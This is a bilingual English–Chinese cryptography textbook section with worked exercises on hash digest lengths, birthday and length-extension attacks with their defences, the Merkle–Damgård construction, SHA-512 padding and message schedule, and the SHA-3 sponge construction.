Q2. (Design) (a) What digest length gives collision resistance of \(2^{128}\) operations? (b) A machine computes \(10^{12}\) hashes per second. How long does a birthday collision search take for a 128-bit and for a 160-bit hash?Q2.（设计）(a) 摘要长度为多少时，抗碰撞性可达 \(2^{128}\) 次运算？(b) 一台机器每秒计算 \(10^{12}\) 次散列。对于 128 位和 160 位散列，生日碰撞搜索各需要多长时间？
Answer
(a) \(2^{n/2}\ge2^{128}\) gives \(n\ge256\) bits.(a) \(2^{n/2}\ge2^{128}\) 次运算对应 \(n\ge256\) 位。
(b) 128-bit: \(2^{64}=1.8\times10^{19}\) hashes, so \(1.8\times10^{7}\) s \(\approx0.58\) years. 160-bit: \(2^{80}=1.2\times10^{24}\) hashes, so \(1.2\times10^{12}\) s \(\approx38{,}000\) years. A 128-bit hash is therefore inadequate, and 160 bits only hold against this hardware.(b) 128 位：\(2^{64}=1.8\times10^{19}\) 次散列，即 \(1.8\times10^{7}\) 秒，约 \(\approx0.58\) 年。160 位：\(2^{80}=1.2\times10^{24}\) 次散列，即 \(1.2\times10^{12}\) 秒，约 \(\approx38{,}000\) 年。因此 128 位散列不足以安全使用，而 160 位仅对该硬件仍然有效。
Q3. (Attack) Mallory wants Alice to sign a fraudulent contract; Alice signs a 64-bit hash of each document. Describe the attack, its cost and success probability, and one defence.Q3.（攻击）Mallory 希望 Alice 对一份欺诈性合同签名；Alice 对每份文件的 64 位散列签名。描述该攻击、其代价和成功概率，并给出一种防御办法。
Answer
Mallory makes \(2^{32}\approx4.3\times10^9\) meaning-preserving variations of the genuine contract \(x\) (for example 32 independent wording or spacing choices) and stores their hashes. She then generates variations of the fraudulent contract \(y\) until one hash matches a stored one; each variation matches with probability \(2^{32}/2^{64}=2^{-32}\), so about \(2^{32}\) further hashes are expected. Total work is about \(2\times2^{32}\) hashes with \(2^{32}\) stored entries. Alice signs the matching genuine variation \(x'\), and the signature is valid for the matching fraudulent \(y'\) because the hashes are equal. If both sets have \(2^{32}\) members the expected number of matches is \(2^{32}\cdot2^{32}/2^{64}=1\), a success probability of \(1-e^{-1}\approx63\%\). Defences: a longer hash (at least 256 bits, work \(2^{128}\)), or Alice makes a random change to the document before signing so that the stored variations no longer match.Mallory 对真实合同 \(x\) 制作 \(2^{32}\approx4.3\times10^9\) 个保持含义的变体（例如 32 个相互独立的措辞或空格选择），并存储它们的散列值。然后她生成欺诈性合同 \(y\) 的变体，直到某个散列值与已存储的值匹配；每个变体以概率 \(2^{32}/2^{64}=2^{-32}\) 匹配，因此期望还需约 \(2^{32}\) 次散列。总工作量约为 \(2\times2^{32}\) 次散列，并需要 \(2^{32}\) 个存储条目。Alice 对匹配的真实变体 \(x'\) 签名，由于散列值相等，该签名对匹配的欺诈性变体 \(y'\) 同样有效。若两个集合各含 \(2^{32}\) 个元素，则期望匹配数为 \(2^{32}\cdot2^{32}/2^{64}=1\)，成功概率为 \(1-e^{-1}\approx63\%\)。防御办法：采用更长的散列（至少 256 位，工作量为 \(2^{128}\)），或者让 Alice 在签名前对文档做一次随机修改，使已存储的变体不再匹配。
Iterated hash structure and the SHA family ★★迭代散列结构与 SHA 家族
Goal. Describe the Merkle–Damgård construction, sketch why it is collision resistant, and recall the SHA-2 parameters.目标。描述 Merkle–Damgård 结构，简要说明它为什么抗碰撞，并回顾 SHA-2 的参数。
Step 1: the Merkle–Damgård construction第 1 步：Merkle–Damgård 结构
In words: cut the padded message into blocks and feed them one by one into a compression function that carries a running value; the last value is the hash.用文字表述：把填充后的消息切成分组，逐个送入一个压缩函数，该函数携带一个不断更新的值；最后的值就是散列值。
Most practical hashes, including SHA-1 and SHA-2, use the iterated structure of Merkle and Damgård（默克尔–达姆加德）. The message is padded, and the final block holds the total message length. It is split into \(L\) blocks \(Y_0,\dots,Y_{L-1}\) of \(b\) bits. A compression function（压缩函数）\(f\) takes an \(n\)-bit chaining variable（链接变量）and one \(b\)-bit block and returns \(n\) bits. Usually \(b>n\), hence "compression".大多数实用的散列，包括 SHA-1 和 SHA-2，都采用 Merkle–Damgård 提出的迭代结构。消息先被填充，最后一个分组包含消息的总长度。消息被切分为 \(L\) 个分组 \(Y_0,\dots,Y_{L-1}\)，每个分组 \(b\) 比特。压缩函数 \(f\) 以一个 \(n\) 比特的链接变量和一个 \(b\) 比特的分组为输入，输出 \(n\) 比特。通常 \(b>n\)，“压缩”因此得名。
Y0 Y1 Y(L-1)
| b | b | b
IV=CV0 -->[ f ]--CV1--> [ f ]--CV2--> ... --> [ f ]--> CV(L) = H(M)
(every arrow between the boxes carries n bits)
Only one block is held at a time, so a message of any length is processed as a stream.每次只保存一个分组，因此任意长度的消息都可以像流一样处理。
Step 2: why it is secure第 2 步：为什么它是安全的
In words: if the compression function has no findable collisions and the length is in the padding, the whole hash has none.用文字表述：如果压缩函数没有可以找到的碰撞，并且长度包含在填充中，那么整个散列也就没有碰撞。
Theorem (Merkle, Damgård): if the length is part of the padded input and \(f\) is collision resistant, then \(H\) is collision resistant. Proof sketch.定理（Merkle–Damgård）：如果长度是填充后输入的一部分，并且 \(f\) 抗碰撞，那么 \(H\) 也抗碰撞。证明概要。
- Suppose \(H(M)=H(M')\) with \(M\ne M'\). The last steps give \(f(CV_{L-1},Y_{L-1})=f(CV'_{L'-1},Y'_{L'-1})\).假设 \(H(M)=H(M')\) 满足 \(M\ne M'\)。最后几步给出 \(f(CV_{L-1},Y_{L-1})=f(CV'_{L'-1},Y'_{L'-1})\)。
- If the two inputs of \(f\) differ, this is a collision for \(f\).如果 \(f\) 的两个输入不同，这就是 \(f\) 的一个碰撞。
- If the inputs are equal, the last blocks (which contain the lengths) are equal. So \(L=L'\) and the previous chaining variables are equal. Repeat one step back.如果输入相同，那么最后的分组（包含长度）也相同。因此 \(L=L'\) 以及之前的链接变量都相等。向前回退一步，重复上述论证。
- Either some step yields two different inputs with the same output, a collision for \(f\), or all blocks agree and \(M=M'\), a contradiction.要么某一步得到两个不同的输入却有相同的输出，即 \(f\) 的一个碰撞；要么所有分组都一致，于是 \(M=M'\)，这与前提矛盾。
The length is essential. Without it, \(M\) and \(M\) followed by zero padding could collide, and the case \(L\ne L'\) could not be handled.长度是必不可少的。没有它，\(M\) 和 \(M\) 后面跟零填充就可能发生碰撞，而情形 \(L\ne L'\) 也无法处理。
Length extension. The digest is the whole final chaining value. So anyone who knows \(H(M)\) and the length of \(M\) can continue the iteration and compute the hash of \(M\), its padding and a chosen \(M_2\), without knowing \(M\). This breaks the naive MAC \(H(K\Vert M)\), where \(K\) is the secret key. HMAC (Section 12.3) is used instead. A sponge hides its capacity bits, so SHA-3 is not affected (Section 11.6).长度扩展。散列值就是最后的整个链接变量。因此，任何知道 \(H(M)\) 以及 \(M\) 长度的人，都可以继续迭代，并在不知道 \(M\) 的情况下，计算 \(M\)、它的填充以及一个选定的 \(M_2\) 的散列。这会破坏简单的 MAC \(H(K\Vert M)\)，其中 \(K\) 是秘密密钥。因此应改用 HMAC（见第 12.3 节）。海绵结构会隐藏其容量比特，因此 SHA-3 不受影响（见第 11.6 节）。
Step 3: the SHA family第 3 步：SHA 家族
In words: SHA-1 has 160-bit digests and is broken in practice; SHA-2 has digests of 224 to 512 bits and is still secure.用文字表述：SHA-1 的散列值为 160 比特，并且在实践中已被攻破；SHA-2 的散列值为 224 到 512 比特，目前仍然安全。
SHA-1 (1995) replaced the original SHA after weaknesses were found. In 2002 NIST added SHA-256, SHA-384 and SHA-512, collectively SHA-2. SHA-224 (2008) and SHA-512/224 and SHA-512/256 (2015) followed. All share the iterated structure.在发现原始 SHA 的弱点后，SHA-1（1995 年）取代了它。2002 年，NIST 增加了 SHA-256、SHA-384 和 SHA-512，它们统称为 SHA-2。随后又有 SHA-224（2008 年）以及 SHA-512/224 和 SHA-512/256（2015 年）。它们都采用迭代结构。
| SHA-1 | SHA-224 | SHA-256 | SHA-384 | SHA-512 | SHA-512/224 | SHA-512/256 | |
|---|---|---|---|---|---|---|---|
| Message size (bits)消息长度（位） | \(\lt 2^{64}\) | \(\lt 2^{64}\) | \(\lt 2^{64}\) | \(\lt 2^{128}\) | \(\lt 2^{128}\) | \(\lt 2^{128}\) | \(\lt 2^{128}\) |
| Block size (bits)分组长度（位） | 512 | 512 | 512 | 1024 | 1024 | 1024 | 1024 |
| Word size (bits)字长（位） | 32 | 32 | 32 | 64 | 64 | 64 | 64 |
| Digest size (bits)摘要长度（位） | 160 | 224 | 256 | 384 | 512 | 224 | 256 |
| Steps (rounds)步数（轮数） | 80 | 64 | 64 | 80 | 80 | 80 | 80 |
| Collision security抗碰撞安全性 | \(2^{80}\) | \(2^{112}\) | \(2^{128}\) | \(2^{192}\) | \(2^{256}\) | \(2^{112}\) | \(2^{128}\) |
The last row is the birthday bound \(2^{n/2}\). Generic collision search on SHA-1 costs \(2^{80}\) compressions. In 2017 the first real collision was produced with \(2^{63.1}\) compressions, about \(1.2\times10^5\) times cheaper than \(2^{80}\). SHA-2 shares SHA-1's structure and operations, so NIST also standardised a differently built hash, SHA-3 (Section 11.6).最后一行是生日界 \(2^{n/2}\)。对 SHA-1 的通用碰撞搜索需要 \(2^{80}\) 次压缩。2017 年，人们首次找到实际碰撞，所用的压缩次数为 \(2^{63.1}\)，比 \(2^{80}\) 便宜约 \(1.2\times10^5\) 倍。SHA-2 与 SHA-1 的结构和运算相似，因此 NIST 还标准化了一种构造不同的散列函数，即 SHA-3（见第 11.6 节）。
Practice练习
Q1. (Prove) State and prove that an iterated hash with length padding is collision resistant if its compression function is.Q1.（证明）陈述并证明：若迭代散列的压缩函数抗碰撞，且采用了长度填充，则该迭代散列也抗碰撞。
Answer
Claim: if \(f\) is collision resistant and the padding contains the message length, then \(H(M)=CV_L\) is collision resistant. Suppose \(M\ne M'\) with \(H(M)=H(M')\), with chaining variables \(CV_i\) and \(CV'_i\). Then \(f(CV_{L-1},Y_{L-1})=f(CV'_{L'-1},Y'_{L'-1})\). If the inputs differ, we have a collision for \(f\). Otherwise \(Y_{L-1}=Y'_{L'-1}\); these blocks hold the lengths, so \(|M|=|M'|\) and \(L=L'\), and also \(CV_{L-1}=CV'_{L-1}\). Repeat for \(i=L-1,L-2,\dots\): at the first step where the input pairs differ but the outputs are equal we have a collision for \(f\). If no such step exists, all blocks are equal and \(M=M'\) (padding is a function of \(M\)), which contradicts \(M\ne M'\). Hence a collision for \(H\) always yields a collision for \(f\).断言：若 \(f\) 抗碰撞且填充包含消息长度，则 \(H(M)=CV_L\) 抗碰撞。假设 \(M\ne M'\)，且 \(H(M)=H(M')\)，其链接变量分别为 \(CV_i\) 与 \(CV'_i\)。则 \(f(CV_{L-1},Y_{L-1})=f(CV'_{L'-1},Y'_{L'-1})\)。若两个输入不同，我们就得到了 \(f\) 的一个碰撞。否则 \(Y_{L-1}=Y'_{L'-1}\)；这些分组包含长度，故 \(|M|=|M'|\) 且 \(L=L'\)，并且还有 \(CV_{L-1}=CV'_{L-1}\)。对 \(i=L-1,L-2,\dots\) 重复上述过程：在第一个输入对不同但输出相等的步骤处，我们就得到了 \(f\) 的一个碰撞。若不存在这样的步骤，则所有分组都相等，且 \(M=M'\)（填充是 \(M\) 的函数），这与 \(M\ne M'\) 相矛盾。因此，\(H\) 的一个碰撞总会产生 \(f\) 的一个碰撞。
Q2. (Beyond the pages) A server authenticates with the tag \(t=\text{SHA-512}(K\Vert M)\). An attacker knows \(M\), \(t\) and \(|K|\) but not \(K\). Show how to forge a tag for a longer message, and name two remedies.Q2.（超出正文）服务器用标签 \(t=\text{SHA-512}(K\Vert M)\) 进行认证。攻击者知道 \(M\)、\(t\) 和 \(|K|\)，但不知道 \(K\)。请展示如何为更长的消息伪造标签，并指出两种补救办法。
Answer
The tag \(t\) is the chaining value after the last block of \(K\Vert M\Vert\mathrm{pad}\), and \(\mathrm{pad}\) depends only on the known total length \(|K|+|M|\). The attacker computes \(\mathrm{pad}\), uses \(t\) as the starting chaining value instead of \(IV\), and hashes a chosen suffix \(M_2\) (with the final padding for the new total length). The result equals \(\text{SHA-512}(K\Vert M\Vert\mathrm{pad}\Vert M_2)\), a valid tag for the message \(M\Vert\mathrm{pad}\Vert M_2\), produced without \(K\). This works because the digest is the entire internal state. Remedies: HMAC, which hashes twice with the key (Chapter 12); a truncated hash such as SHA-384 or SHA-512/256, where part of the state stays hidden; or SHA-3, whose output exposes only \(r\) of the \(b\) state bits so the capacity bits stay secret.标签 \(t\) 是 \(K\Vert M\Vert\mathrm{pad}\) 的最后一个分组之后的链接值，而其填充 \(\mathrm{pad}\) 仅取决于已知的总长度 \(|K|+|M|\)。攻击者计算 \(\mathrm{pad}\)，将 \(t\) 而非 \(IV\) 用作起始链接值，并对所选的后缀 \(M_2\) 进行散列（使用针对新总长度的最终填充）。结果等于 \(\text{SHA-512}(K\Vert M\Vert\mathrm{pad}\Vert M_2)\)，即消息 \(M\Vert\mathrm{pad}\Vert M_2\) 的一个有效标签，而无需 \(K\)。之所以可行，是因为摘要就是整个内部状态。补救办法包括：HMAC，它用密钥对消息散列两次（第 12 章）；截断的散列，例如 SHA-384 或 SHA-512/256，其中部分状态保持隐藏；或者 SHA-3，其输出只暴露 \(b\) 个状态比特中的 \(r\) 个，因而容量比特保持秘密。
SHA-512 ★★
Goal. Compute the padding and the number of blocks for a message, write the round and message-schedule equations, and explain the final addition.目标。计算一条消息的填充和分组数，写出轮函数和消息调度方程，并说明最后的加法。
SHA-512 takes a message shorter than \(2^{128}\) bits, processes it in 1024-bit blocks with the iterated structure of Section 11.4, and outputs a 512-bit digest. The compression function \(F\) is a module of 80 rounds.SHA-512 接受长度小于 \(2^{128}\) 比特的消息，用 1024 比特分组并采用第 11.4 节的迭代结构进行处理，输出 512 比特的散列值。压缩函数 \(F\) 是一个包含 80 轮的模块。


Step 1: padding and block count第 1 步：填充与分组数
In words: append a 1, then zeros until the length is 128 bits short of a multiple of 1024, then the 128-bit length.用文字表述：先补一个 1，再补零，直到长度比 1024 的倍数少 128 比特为止，然后再附加 128 比特的长度字段。
- Append padding. Add a single 1 bit and then 0 bits so that the length is congruent to 896 modulo 1024. Padding is always added, even if the length is already 896, so 1 to 1024 padding bits are used.附加填充。 添加一个 1 比特，然后添加 0 比特，使长度模 1024 余 896。即使长度已经是 896，也总是要添加填充，因此会使用 1 到 1024 位填充。
- Append length. Add a 128-bit block holding the original length in bits as an unsigned integer. The result is \(N\) blocks of 1024 bits, each of sixteen 64-bit words.附加长度。再附加一个 128 比特的分组，其中以无符号整数形式保存原始消息的比特长度。结果是 \(N\) 个 1024 比特的分组，每个分组由十六个 64 位的字组成。
By hand for \(|M|=1000\) bits: \(895-1000=-105\), and \(-105\bmod1024=919\), so \(p=919+1=920\). The total is \(1000+920+128=2048\) bits, so \(N=2\) blocks. For \(|M|=2944\): the length is already \(\equiv896\), so \(p=1024\) and \(N=4\).手工计算 \(|M|=1000\) 比特的消息：\(895-1000=-105\)，并且 \(-105\bmod1024=919\)，所以 \(p=919+1=920\)。总长为 \(1000+920+128=2048\) 比特，因此为 \(N=2\) 个分组。对于 \(|M|=2944\)：长度已经是 \(\equiv896\)，所以 \(p=1024\)，并且 \(N=4\)。
Step 2: buffer, rounds and final addition第 2 步：缓冲区、轮与最后的加法
In words: eight 64-bit registers are mixed for 80 rounds per block, and the result is added back to the value before the block.用文字表述：每个分组中，八个 64 位寄存器要混合 80 轮，然后把结果加回到该分组处理之前的值上。
Initialise eight 64-bit registers \(a,b,c,d,e,f,g,h\) (512 bits) with \(H_0\): the first 64 bits of the fractional parts of the square roots of the first eight primes. Each block \(M_i\) runs through 80 rounds \(t=0,\dots,79\). Round \(t\) uses a word \(W_t\) derived from \(M_i\) and a constant \(K_t\), the first 64 bits of the fractional parts of the cube roots of the first 80 primes. The output of round 79 is added word by word, modulo \(2^{64}\), to the input value. The digest is \(H_N\).用 \(H_0\) 初始化八个 64 位寄存器 \(a,b,c,d,e,f,g,h\)（共 512 比特），其值为前八个素数平方根小数部分的前 64 比特。每个分组 \(M_i\) 都要经过 80 轮 \(t=0,\dots,79\)。第 \(t\) 轮使用一个由 \(M_i\) 导出的字 \(W_t\)，以及一个常数 \(K_t\)，该常数取前 80 个素数立方根小数部分的前 64 比特。第 79 轮的输出与输入值逐字相加，模 \(2^{64}\)。散列值为 \(H_N\)。
Six of the eight registers (\(b,c,d,f,g,h\)) are only moved by one position. Only \(a\) and \(e\) are newly computed.八个寄存器中有六个（\(b,c,d,f,g,h\)）只是平移一个位置。只有 \(a\) 和 \(e\) 是新算出来的。
The final addition is needed because each round is invertible when \(W_t\) and \(K_t\) are known. Without the addition, anyone could run the 80 rounds backwards. Adding the input value back makes the compression function one-way.最后的加法是必要的，因为在已知 \(W_t\) 和 \(K_t\) 时，每一轮都是可逆的。如果没有这一加法，任何人都可以把 80 轮倒着运行。把输入值加回去，使压缩函数具有单向性。
Step 3: the message schedule第 3 步：消息调度
In words: the 16 words of the block are stretched into 80 words, each built from earlier ones.用文字表述：分组中的 16 个字被扩展为 80 个字，每个字都由前面的字构造而来。


Sixteen words come directly from the block and 64 from the schedule. Work for a collision is about \(2^{256}\) and for a preimage about \(2^{512}\).其中十六个字直接取自分组，另外 64 个由调度产生。碰撞的工作量约为 \(2^{256}\)，原像的工作量约为 \(2^{512}\)。
ddaf35a193617aba cc417349ae204131 12e6fa4e89a97ea2 0a9eeee64b55d39a
2192992a274fc1a8 36ba3c23a3feebbd 454d4423643ce80e 2a9ac94fa54ca49f
Changing the first character from a (hex 61) to c (hex 63) flips one input bit, yet 253 of the 512 digest bits change. This is almost half and shows a good avalanche effect（雪崩效应）.把第一个字符从 a（十六进制 61）改为 c（十六进制 63），只翻转了一个输入比特，但 512 个散列比特中有 253 个发生了变化。这几乎是一半，体现了良好的雪崩效应。
Practice练习
Q1. (Calculation) Give the padding field, the length field and the padded length of SHA-512 for messages of 2942, 2943 and 2944 bits.Q1.（计算）给出 SHA-512 对于长度为 2942、2943 和 2944 位的消息的填充位数、长度字段以及填充后的长度。
Answer
The padding makes the length \(\equiv896\pmod{1024}\); \(p=((895-|M|)\bmod1024)+1\).填充使长度为 \(\equiv896\pmod{1024}\)；\(p=((895-|M|)\bmod1024)+1\)。
| \(\lvert M\rvert\) | \(\lvert M\rvert\bmod1024\) | padding bits \(p\) | padding field填充字段 | length field (128 bits)长度字段（128 位） | padded length填充后长度 |
|---|---|---|---|---|---|
| 2942 | 894 | 2 | 10 |
14 zero bytes then 0B7E |
3072 (3 blocks)3072（3 个分组） |
| 2943 | 895 | 1 | 1 |
14 zero bytes then 0B7F |
3072 (3 blocks)3072（3 个分组） |
| 2944 | 896 | 1024 | 1 then 1023 zeros |
14 zero bytes then 0B80 |
4096 (4 blocks)4096（4 个分组） |
For 2944 the length is already \(\equiv896\), but padding is mandatory, so a full 1024 bits are added.对于 2944 位的消息，其长度已经是 \(\equiv896\)，但填充是必需的，因此要添加完整的 1024 位。
易错：长度恰好 ≡ 896 (mod 1024) 时仍要补 1024 位，不是 0 位。
Q2. (Trace) Write the message-schedule equations for \(W_{16}\), \(W_{18}\), \(W_{23}\) and \(W_{31}\).Q2.（手工演算）写出 \(W_{16}\)、\(W_{18}\)、\(W_{23}\) 和 \(W_{31}\) 的消息调度方程。
Answer
Use \(W_t=\sigma_1(W_{t-2})+W_{t-7}+\sigma_0(W_{t-15})+W_{t-16}\):使用 \(W_t=\sigma_1(W_{t-2})+W_{t-7}+\sigma_0(W_{t-15})+W_{t-16}\)：
\(W_{16}=\sigma_1(W_{14})+W_{9}+\sigma_0(W_{1})+W_{0}\)
\(W_{18}=\sigma_1(W_{16})+W_{11}+\sigma_0(W_{3})+W_{2}\)
\(W_{23}=\sigma_1(W_{21})+W_{16}+\sigma_0(W_{8})+W_{7}\)
\(W_{31}=\sigma_1(W_{29})+W_{24}+\sigma_0(W_{16})+W_{15}\)
\(W_{16}\) is needed again for \(W_{18}\), \(W_{23}\) and \(W_{31}\), which shows the interdependence of the schedule.\(W_{16}\) 在 \(W_{18}\)、\(W_{23}\) 和 \(W_{31}\) 中再次被用到，这体现了调度的相互依赖性。
SHA-3 and the sponge construction ★SHA-3 与海绵结构
SHA-3 (Keccak, FIPS 202) was chosen by a public NIST competition in 2012. Its structure differs completely from SHA-2, so a break in one leaves the other available. A sponge（海绵结构）has an internal function \(f\) on \(b\)-bit strings, a rate \(r\) (the block size) and a padding rule. The state has \(b=r+c\) bits, where \(c\) is the capacity（容量）. SHA-3 uses pad10*1, so at least two padding bits are added.SHA-3（Keccak，FIPS 202）是 NIST 于 2012 年通过公开竞赛选定的。它的结构与 SHA-2 完全不同，因此若其中一种被攻破，另一种仍然可用。海绵结构包含一个作用于 \(b\) 比特字符串的内部函数 \(f\)、速率 \(r\)（即分组大小），以及一条填充规则。状态共有 \(b=r+c\) 比特，其中 \(c\) 为容量。SHA-3 使用 pad10*1，因此至少要添加两个填充比特。


Absorbing（吸收阶段）: extend each \(r\)-bit block with \(c\) zeros, XOR it into the state, apply \(f\). Squeezing（挤出阶段）: output the first \(r\) bits of the state, and apply \(f\) again if more bits are needed. The capacity is never output, which is why SHA-3 has no length extension.吸收阶段：用 \(c\) 个零把每个 \(r\) 比特的分组补齐，与状态异或，然后应用 \(f\)。挤出阶段：输出状态的前 \(r\) 比特；如果还需要更多比特，就再次应用 \(f\)。容量部分从不输出，这正是 SHA-3 没有长度扩展问题的原因。
| Digest size \(d\) | 224 | 256 | 384 | 512 |
|---|---|---|---|---|
| Block size = rate \(r\) | 1152 | 1088 | 832 | 576 |
| Capacity \(c\) | 448 | 512 | 768 | 1024 |
| Word size, rounds字长，轮数 | 64, 24 | 64, 24 | 64, 24 | 64, 24 |
| Collision resistance抗碰撞性 | \(2^{112}\) | \(2^{128}\) | \(2^{192}\) | \(2^{256}\) |
| Second preimage resistance抗第二原像性 | \(2^{224}\) | \(2^{256}\) | \(2^{384}\) | \(2^{512}\) |
SHA3-256, for example, has \(r=1088\) and \(c=512\). A larger capacity raises security and lowers speed.例如，SHA3-256 具有 \(r=1088\) 和 \(c=512\)。容量越大，安全性越高，但速度越慢。
| SHA-512 (SHA-2) | SHA-3 | |
|---|---|---|
| Structure结构 | Merkle–Damgård with a compression function带压缩函数的 Merkle–Damgård 结构 | sponge on a permutation \(f\) |
| State, block状态，分组 | 512-bit chaining value, 1024-bit block512 位链接值，1024 位分组 | 1600-bit state, \(r\)-bit block |
| Rounds, operations轮数，运算 | 80; addition mod \(2^{64}\), Boolean functions, rotations80；模 \(2^{64}\) 加法、布尔函数、循环移位 | 24; XOR, AND, NOT, rotations24；异或、与、非、循环移位 |
| Output输出 | the whole final chaining value整个最终链接值 | first \(d\) bits of the rate; capacity never revealed速率的前 \(d\) 比特；容量从不输出 |
| Length extension长度扩展 | possible可行 | not possible不可能 |
| Output length输出长度 | fixed固定 | arbitrary (extendable-output functions)任意（可扩展输出函数） |
Practice练习
Q1. (Calculation) For SHA3-256, give \(r\) and \(c\), the number of lanes that the first message block overwrites, the number that stay zero, and the number of calls of \(f\) for a 2000-bit message.Q1.（计算）对于 SHA3-256，给出 \(r\) 和 \(c\)、第一个消息分组覆盖的通道数、保持为零的通道数，以及处理 2000 比特消息时 \(f\) 的调用次数。
Answer
\(d=256\) gives \(c=2d=512\) and \(r=1600-512=1088\). The first block fills \(r/64=17\) lanes, namely \(L[0,0],\dots,L[4,0]\), \(L[0,1],\dots,L[4,1]\), \(L[0,2],\dots,L[4,2]\), \(L[0,3]\) and \(L[1,3]\); the other \(c/64=8\) lanes are still zero. Blocks: \(k=\lceil(2000+2)/1088\rceil=2\) (the padded message has \(2176\) bits, 176 of them padding). The digest has \(256\le r\) bits, so no squeezing iteration is needed: \(N_f=2\) calls, i.e. 48 rounds.\(d=256\) 给出 \(c=2d=512\) 和 \(r=1600-512=1088\)。第一个分组填充了 \(r/64=17\) 个通道，即 \(L[0,0],\dots,L[4,0]\)、\(L[0,1],\dots,L[4,1]\)、\(L[0,2],\dots,L[4,2]\)、\(L[0,3]\) 和 \(L[1,3]\)；其余 \(c/64=8\) 个通道仍为零。分组数：\(k=\lceil(2000+2)/1088\rceil=2\)（填充后的消息长 \(2176\) 比特，其中 176 比特为填充）。摘要长 \(256\le r\) 比特，因此无需挤出迭代：共 \(N_f=2\) 次调用，即 48 轮。
Terms to recognise ★需要认识的术语
| Term术语 | What to know要知道什么 |
|---|---|
| Keccak-\(f\) round | five steps in order \(\theta,\rho,\pi,\chi,\iota\); \(\chi\) is the only nonlinear one; 24 rounds on a \(5\times5\) array of 64-bit lanes五个步骤依次为 \(\theta,\rho,\pi,\chi,\iota\)；\(\chi\) 是唯一的非线性步骤；在 \(5\times5\) 的 64 位通道阵列上做 24 轮。 |
| \(\theta\), \(\iota\) | \(\theta\) gives diffusion (each bit depends on 11 bits); \(\iota\) XORs a round constant into one lane\(\theta\) 提供扩散（每一位依赖于 11 个比特）；\(\iota\) 把轮常数异或进一个通道。 |
| Weak and strong hash弱散列与强散列 | weak: first five requirements; strong: also collision resistant弱：前五条要求；强：另外还要抗碰撞 |
